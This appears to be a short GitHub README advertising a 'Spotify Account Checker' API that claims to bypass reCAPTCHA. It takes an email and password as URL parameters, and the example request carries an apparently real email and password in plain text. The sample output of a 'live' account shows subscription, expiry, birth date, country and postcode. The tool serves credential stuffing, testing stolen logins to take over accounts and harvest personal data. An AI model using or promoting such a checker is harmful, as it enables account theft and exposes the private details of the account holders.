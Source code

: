 # spotify

Spotify Account Checker Api bypass reCaptcha

Api : http://nabilah.xyz/api

?email= (required). Email
&pass= (required). Password

Example : http://nabilah.xyz/api?email=nblh.ayu@gmail.com&pass=ikhsan

Live Account 

{"status":"success","error":"none","subscription":"Premium for Family","Berlaku hingga":["4\/14\/18"],"Tanggal lahir":["2\/20\/86"],"Negara":["ID"],"Kode pos":["46124"]}

Die Account

{"status":"fail","error":"errorInvalidCredentials"}


Contact me : https://www.facebook.com/m.1khs4n



